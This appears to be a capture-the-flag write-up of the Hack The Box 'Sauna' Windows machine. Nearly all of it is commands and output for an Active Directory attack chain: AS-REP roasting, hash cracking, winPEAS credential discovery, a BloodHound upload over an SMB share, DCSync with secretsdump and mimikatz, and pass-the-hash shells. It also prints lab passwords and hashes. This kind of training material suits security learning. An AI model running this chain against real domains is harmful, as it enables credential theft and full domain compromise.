


Box: Windows 

Level: Easy

### Index
1. Box Info 
2. Initial Nmap Enumeration
	2.1  Enumerating `Domain:` Field for the target - Important when performing attack which require `DOMAin` in the Command Line Argument.  
3. [Web Enumeration - Port 80](#Web%20Enumeration%20-%20Port%2080)
4. [ASREPROAST Attack](#ASREPROAST%20Attack)
5. [Capture the User Flag](#Capture%20the%20User%20Flag)
6. [Privilege Escalation](#Privilege%20Escalation) using winPEASany.exe
7. [Privilege Escalation using mimikatz](#Privilege%20Escalation%20using%20mimikatz)
	7.1  [Using NTLM hash to get a shell using evil-winrm](#Using%20NTLM%20hash%20to%20get%20a%20shell%20using%20evil-winrm)

### Box Info
```
Sauna is an easy difficulty Windows machine that features Active Directory enumeration and exploitation. Possible usernames can be derived from employee full names listed on the website. With these usernames, an ASREPRoasting attack can be performed, which results in hash for an account that doesn&amp;amp;#039;t require Kerberos pre-authentication. This hash can be subjected to an offline brute force attack, in order to recover the plaintext password for a user that is able to WinRM to the box. Running WinPEAS reveals that another system user has been configured to automatically login and it identifies their password. This second user also has Windows remote management permissions. BloodHound reveals that this user has the *DS-Replication-Get-Changes-All* extended right, which allows them to dump password hashes from the Domain Controller in a DCSync attack. Executing this attack returns the hash of the primary domain administrator, which can be used with Impacket&amp;amp;#039;s psexec.py in order to gain a shell on the box as `NT_AUTHORITY\SYSTEM`.
```

### Initial Nmap Enumeration

```
# nmap -p- --min-rate=1000 -Pn -T4 -sC -sV 10.10.10.175
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m59s
| smb2-time: 
|   date: 2024-08-26T12:14:47
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

Looking at the box info, We know that we will have some sort of list of users mentioned somewhere on the web page. 
**But I learn something new on this box**

#### Enumerating `DOMAIN` 

I know that the following command enumerate all the open ports only. But What I learned in this box is that **You Need To Run This Command Multiple Time To Make Sure You Get The Correct Result. Because I Was Getting Different Results In The Initial Runs**

**First Run**
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Sauna.htb]
└─# nmap -p- --min-rate=10000 10.10.10.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 22:08 EDT
Nmap scan report for sauna.htb (10.10.10.175)
Host is up (0.054s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
9389/tcp  open  adws
49677/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.76 seconds
```

**Second Run**
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Sauna.htb]
└─# nmap -p- --min-rate=10000 10.10.10.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 22:10 EDT
Nmap scan report for sauna.htb (10.10.10.175)
Host is up (0.085s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49677/tcp open  unknown
49689/tcp open  unknown
49696/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 33.67 seconds

```

Both the runs done one after another. Still We are seeing different results in the second run. Okay so we know that the `LDAP` port 389 is open as well. After reading the Box Info, I was able to run the ~~ASREPROAST ATTACK~~ But I needed a `Domain Name` and I used Domain Name that I retrieved using the `nxc` command I posted below. So apparently my ASREPROAST attack was successful but I realized that I will need a way to enumerate the `Domain:` field the proper way rather than grabbing it from here and there. So the correct way of enumerating it is posted below. Now I will grab the each port one by one and post the result here. But Notice the different for those port for which the scan has ran multiple times. This is because sometimes Nmap failed to work with the target and that happens a lot in the real world environment as well. **THIS IS IMPORTANT**

```
# nmap -p53 -sC -sV -Pn 10.10.10.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 22:19 EDT

PORT   STATE SERVICE VERSION
53/tcp open  domain  Simple DNS Plus
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.47 seconds
#################################################################################################

# nmap -p80 -sC -sV -Pn 10.10.10.175

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
#################################################################################################

# nmap -p88 -sC -sV -Pn 10.10.10.175

PORT   STATE    SERVICE      VERSION
88/tcp filtered kerberos-sec

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.30 seconds
#################################################################################################

# nmap -p88 -sC -sV -Pn 10.10.10.175

PORT   STATE    SERVICE      VERSION
88/tcp filtered kerberos-sec

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.30 seconds
################################################################################################# Notice Below For port 88. 

# nmap -p88 -sC -sV -Pn 10.10.10.175

PORT   STATE SERVICE      VERSION
88/tcp open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-08-27 09:22:36Z)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.23 seconds
#################################################################################################

# nmap -p135 -sC -sV -Pn 10.10.10.175

PORT    STATE SERVICE VERSION
135/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.46 seconds
#################################################################################################

# nmap -p139 -sC -sV -Pn 10.10.10.175

PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Microsoft Windows netbios-ssn
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-08-27T09:22:51
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m02s
#################################################################################################

# nmap -p389 -sC -sV -Pn 10.10.10.175

PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.32 seconds
#################################################################################################

```

Like this way, We will have to enumerate all the other ports.

### Web Enumeration - Port 80



All Right, We got our list of users. Let's prepare a possible list of usernames out of this users. So here's my userlist.txt file.

```
# cat userlist        
fergussmith
f.smith
fsmith
fergus.s
fergus.smith
fergus-smith
ShaunCoins
s.coins
scoins
shaun.c
shaun.coins
HugoBear
h.bear
hbear
hugo.b
hugo.bear
BowieTaylor
b.taylor
btaylor
bowie.t
bowie.taylor
SophieDriver
s.driver
sdriver
sophie.d
sophie.driver
StevenKerb
s.kerb
skerb
steven.d
steven.kerb
```

Now let's perform ASREPROAST attack against the list of this users. **BUT** before we do that, We will need the Domain name. I tried using `sauna.local` or `sauna.htb` but that was not working. I knew that the domain name on the target host would be something else. This is bit unconventional way of getting the domain. I ran the following command to perform the ASREPROAST attack and got the domain name. However, the ASREPROAST attack was unsuccessful using the following command.

```
# nxc ldap 10.10.10.175 -u userlist -p '' --asreproast output.txt
SMB         10.10.10.175    445    SAUNA            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
```

Okay we got the domain name: It's `EGOTISTICAL-BANK.LOCAL`

### ASREPROAST Attack

Following to that I will perform the ASREPROAST Attack.

```
# impacket-GetNPUsers -usersfile userlist -format hashcat -outputfile TGT.txt -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:2e4d886bc7111984022031a5b4cf1883$02ef366346083d30c3fb8a65c7fd3786a0ca7e989c3a354a635f27d43ed35ed06bb6ca7792e4c4aca629b9f317ba92260c34330e7e43741f4cfb71678fa5d434a0e1255f35fbe0a1c99b85360dabcf7456facd058dce03d0a9a7f31fbb2725306cea469b0b760f6c5e35995b48e7ce195ceaed504e6d1ce0b30193779fb88461684471657bf81000eb0126f4ef3ef4439c9b9afdb1e0ebebafacdd94ab7bd0c2476239ee5c8dc47d2eede3956f1f4ca0a22a5f4a8fc7996ec93a576d7a85a62d333bfcafea881b2dbff56da413a57621e9f51f43956ee9a557f8eafb7771d96ebc9c990d631f7ca71544c94316e7318e1db527a032ffc2aa5c6d25fdae72f260
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)

```

Awesome, We got our Kerberos TGT. This Ticket has the Kerberos Pre-Authentication disabled.

```
# hashcat -m 18200 -a 0 TGT.txt /usr/share/wordlists/rockyou.txt 

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:9909fbd7f9138d7a4ef7811a9028ba9c$87d8bc505d5a8727dfaf8cbee04f41b85a090e23b6f9bb5860ef481cfdf437370e722dfcf126e49bd986fd01a0f7b2e26bf2e6339b80d39d84202b2aa318282e32467bcd9d8c915e3a7e77833e9271fac01e623053ae2c9565e9a234bb8f7e4f93b7d314c5cdc7e81b9d42a12c344f6e799b6e632d3d40935d06637df72274723c47ef5d0d1caebd407b39614b78b257a4515e94cd87662a7f3da1573baaf6443b33cfd50c208f00e0474eb2aad75bbfd267c90f4a33110d42953bc17dd8797f424ee97caf9d1e0f24219dec082094385da86e89ada74ee429efd98d5599423e1512aefcb9402ad88bbbe67b1a74aac3902da07a8b7bec1b22a855b02634dcb4:Thestrokes23
                                                          
Session..........: hashcat
Status...........: Cracked

```

Awesome, We got our password. Let's login using Evil-WinRM.

### Capture the User Flag

The Shell is bit slow tho. But we can work it out.

```
# evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'
*Evil-WinRM* PS C:\Users\FSmith\Documents> cd ..
*Evil-WinRM* PS C:\Users\FSmith> cd Desktop\
*Evil-WinRM* PS C:\Users\FSmith\Desktop> type user.txt
ad11a0f790cc7b3a3b9c8a3240bc8ac6
*Evil-WinRM* PS C:\Users\FSmith\Desktop> 

```

### Privilege Escalation

Some of the interesting `winPEASany.exe` findings.

```
########### Checking KrbRelayUp
#  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup
  The system is inside a domain (EGOTISTICALBANK) so it could be vulnerable.
# You can try https://github.com/Dec0ne/KrbRelayUp to escalate privileges


Current user: FSmith
  Current groups: Domain Users, Everyone, Builtin\Remote Management Users, Users, Builtin\Pre-Windows 2000 Compatible Access, Network, Authenticated Users, This Organization, NTLM Authentication

########## Current Token privileges
# Check if you can escalate privilege using some enabled token https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#token-manipulation
    SeMachineAccountPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeIncreaseWorkingSetPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED

############ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!

########## Checking write permissions in PATH folders (DLL Hijacking)
È Check for DLL Hijacking in PATH folders https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dll-hijacking
    C:\Windows\system32
    C:\Windows
    C:\Windows\System32\Wbem
    C:\Windows\System32\WindowsPowerShell\v1.0\
    C:\Windows\System32\OpenSSH\

########### Looking AppCmd.exe
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#appcmd.exe
    AppCmd.exe was found in C:\Windows\system32\inetsrv\appcmd.exe
      You must be an administrator to run this check

########### Looking for possible password files in users homes
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
    C:\Users\All Users\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml

########### Searching hidden files or folders in C:\Users home (can be slow)
                                                                                                                                                                        
     C:\Users\Default
     C:\Users\All Users
     C:\Users\All Users\ntuser.pol
     C:\Users\All Users\RICOH_DRV\RICOH Aficio SP 8300DN PCL 6\utne7z\FileCache_DrvDeviceCapabilites
     C:\Users\All Users\RICOH_DRV\RICOH Aficio SP 8300DN PCL 6\_common
     C:\Users\All Users\RICOH_DRV\RICOH Aficio SP 8300DN PCL 6
     C:\Users\All Users\RICOH_DRV\RICOH Aficio SP 8300DN PCL 6\do_not_delete_folders
     C:\Users\Default User
     C:\Users\Default
     C:\Users\All Users

########## Found Database Files
File: C:\Users\All Users\Microsoft\Windows\Caches\cversions.2.db
File: C:\Users\All Users\Microsoft\Windows\Caches\{6AF0698E-D558-4F6E-9B3C-3716689AF493}.2.ver0x0000000000000002.db
File: C:\Users\All Users\Microsoft\Windows\Caches\{DDF571F2-BE98-426D-8288-1A9A39C3FDA2}.2.ver0x0000000000000002.db

```

Okay we have one more credentials now and that is `Autologon Credentials`. I will now going to upload the SharpHound.exe on the target to collect some AD Information.

Here is the high-level steps to collect the data using SharpHound.exe and throw it into Bloodhound.
```
On your Kali
$ impacket-smbserver share /home/ringbuffer/Downloads/sauna.htb

On your Target

C:\temp>net use \\10.10.14.4\share
C:\temp>copy \\10.10.14.4\share\SharpHound.exe C:\temp\SharpHound.exe

*Evil-WinRM* PS C:\temp> .\SharpHound.exe
2024-08-27T04:20:37.3820532-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-08-27T04:20:37.5226766-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-08-27T04:20:37.5539334-07:00|INFORMATION|Initializing SharpHound at 4:20 AM on 8/27/2024
2024-08-27T04:20:37.6945550-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for EGOTISTICAL-BANK.LOCAL : SAUNA.EGOTISTICAL-BANK.LOCAL
2024-08-27T04:20:49.7571507-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-08-27T04:20:49.9132982-07:00|INFORMATION|Beginning LDAP search for EGOTISTICAL-BANK.LOCAL
2024-08-27T04:20:49.9445586-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-08-27T04:20:49.9601731-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-08-27T04:21:20.3195551-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM


*Evil-WinRM* PS C:\temp> copy 20240827042144_BloodHound.zip \\10.10.14.4\share\20240827042144_BloodHound.zip
```

Now once you got the zip file you can import the whole zip file into bloodhound as follows

```
$ neo4j console
$ bloodhound //in a new terminal windows
## Login to BloodHound using default cred neo4j/neo4j. In my case it was different
Upload the data
```

Now We have credentials for the `EGOTISTICALBANK\svc_loanmanager` account. Let's first search for that user in BloodHound.



Okay so our user `svc_loanmgr` has the DcSync privilege allowed directly to the Domain `EGOTISTICAL-BANK.LOCAL`. In a [Forest.HTB](https://github.com/ring-buffer/Red_Team_Notes/blob/main/Windows-HTB-Boxes/Forest%20HTB.md) We had the similar scenario But we have cover the great detail in that box. Let me highlight those things here as well from the prospective of this box.

For this box, the user `svc_loanmgr` has DcSync rights assign to the Domain. Upon Digging little in detail, I notice few things which I was not able to link with what we have seen in the [Forest.HTB](https://github.com/ring-buffer/Red_Team_Notes/blob/main/Windows-HTB-Boxes/Forest%20HTB.md) but that's fine. Because, for this box, we got the credentials for the user who has DcSync privilege to the domain directly so there's no point in linking the groups to make a connection just like what we did for the Forest.HTB.

### Performing DcSync 

Okay if you want to learn how DcSync work, look at Forest.HTB because we have got the creds off the hook for this box. This box only covers the practical portion of the DcSync Attack.

Using `impacket-secretsdump` and the `scv_loanmgr` user credentials, we can dump the hash for the administrator user.
```
# impacket-secretsdump 'EGOTISTICALBANK'/'svc_loanmgr':'Moneymakestheworldgoround!'@10.10.10.175
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:8626f57fb08b17ecc38c6e2fc908f95d:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e
Administrator:des-cbc-md5:fb8f321c64cea87f
krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
krbtgt:des-cbc-md5:c170d5dc3edfc1d9
EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
SAUNA$:aes256-cts-hmac-sha1-96:62e907305dc1c0f45fa08a81660db82fee979d0ea000a1854dfb98092cbbd7cd
SAUNA$:aes128-cts-hmac-sha1-96:af4549268c2a2713cce0b45c57f9b64b
SAUNA$:des-cbc-md5:104c515b86739e08
[*] Cleaning up... 

```

Using the administrator hash we got, we can use `impacket-psexec` to login. 
```
# impacket-psexec administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.175.....
[*] Found writable share ADMIN$
[*] Uploading file MAuSfJZH.exe
[*] Opening SVCManager on 10.10.10.175.....
[*] Creating service Ubxs on 10.10.10.175.....
[*] Starting service Ubxs.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.973]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd\
 
C:\> cd Users
 
C:\Users> cd Administrator\Desktop
 
C:\Users\Administrator\Desktop> type root.txt
150cd840a26fe7f259ea4e4a1d1f6c21
```

Get your root flag. **Remember: The `impacket-psexec` worked here because the port 445 was open**. 

### Privilege Escalation using mimikatz

Okay now that we have our root flag, I am not pushing myself little harder to play with some other tools. This time, I am going to use mimikatz. But while solving this box, I was not able to `evil-winrm` into user `svc_loanmanager` but than I realized that the actual user on the system is `svc_loanmgr` when I was exploring the BloodHound result.
So now I will get my `mimikatz.exe` on the `svc_loanmgr` user account and perform the DcSync attack using mimikatz. 

Here is my output from the target host when running the mimikatz.exe
```
*Evil-WinRM* PS C:\temp> .\mimikatz.exe 'lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator' exit

mimikatz(commandline) # lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator
[DC] 'EGOTISTICAL-BANK.LOCAL' will be the domain
[DC] 'SAUNA.EGOTISTICAL-BANK.LOCAL' will be the DC server
[DC] 'administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 7/26/2021 9:16:16 AM
Object Security ID   : S-1-5-21-2966785786-3096785034-1186376766-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 823452073d75b9d1cf70ebdf86c7f98e
    ntlm- 0: 823452073d75b9d1cf70ebdf86c7f98e
    ntlm- 1: d9485863c1e9e05851aa40cbb4ab9dff
    ntlm- 2: 7facdc498ed1680c4fd1448319a8c04f
    lm  - 0: 365ca60e4aba3e9a71d78a3912caf35c
    lm  - 1: 7af65ae5e7103761ae828523c7713031

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 716dbadeed0e537580d5f8fb28780d44

* Primary:Kerberos-Newer-Keys *
    Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
      aes128_hmac       (4096) : a9f3769c592a8a231c3c972c4050be4e
      des_cbc_md5       (4096) : fb8f321c64cea87f
    OldCredentials
      aes256_hmac       (4096) : 987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031
      aes128_hmac       (4096) : 145e4d0e4a6600b7ec0ece74997651d0
      des_cbc_md5       (4096) : 19d5f15d689b1ce5
    OlderCredentials
      aes256_hmac       (4096) : 9637f48fa06f6eea485d26cd297076c5507877df32e4a47497f360106b3c95ef
      aes128_hmac       (4096) : 52c02b864f61f427d6ed0b22639849df
      des_cbc_md5       (4096) : d9379d13f7c15d1c

* Primary:Kerberos *
    Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
    Credentials
      des_cbc_md5       : fb8f321c64cea87f
    OldCredentials
      des_cbc_md5       : 19d5f15d689b1ce5

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  b4a06d28f92506a3a336d97a66b310fa
    02  71efaf133c578bd7428bd2e1eca5a044
    03  974acf4f67e4f609eb032fd9a72e8714
    04  b4a06d28f92506a3a336d97a66b310fa
    05  79ba561a664d78d6242748774e8475c5
    06  f1188d8ed0ca1998ae828a60a8c6ac29
    07  801ddc727db9fa3de98993d88a9ffa8b
    08  a779e05da837dd2d303973304869ec0f
    09  ac2c01846aebce4cbd4e3ec69b47a65d
    10  6d863d6ae06c3addc49b7a453afe6fa0
    11  a779e05da837dd2d303973304869ec0f
    12  6676b9fdd4aa7f298f1ada64c044c230
    13  5a01167d750636d66e5602db9aece9b7
    14  f702282bd343c2fee7b98deac8950390
    15  a099aa3c81f1affeba59d79a6533f60d
    16  4bae84b8f0b0306788ff9bda4acb3bd4
    17  976d547fb9e04b0ac5ec60508c275da1
    18  50c302b71d0e08a1a2be14b56225645f
    19  edb19e08653443695f6d3599e0a6bddf
    20  c497465ddc6e2fc14cb0359d0d5de7f8
    21  2ed0b4b57196fb190a66224b2b17029f
    22  37d03051ae1cd6046975948564ab01fa
    23  d4c7554fe1beb0ed712f50cfec470471
    24  8df495fe69cdce409b9f04ea04289b9e
    25  40788044be982310920cc0740687fefd
    26  db7f66f1f1a8f46274d20cfdda5b6e1c
    27  d70226ec52f1ef198c2e1e955a1da9b6
    28  abdd681f875a9b3f3a50b36e51692a2c
    29  dcd140a2ce2bf70fed7ac0e2b60d0dee


mimikatz(commandline) # exit
Bye!

```

#### Using NTLM hash to get a shell using evil-winrm

And from the Above NTLM hash, we can get the Admin shell using `evil-winrm`
```
# evil-winrm -i 10.10.10.175 -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
egotisticalbank\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```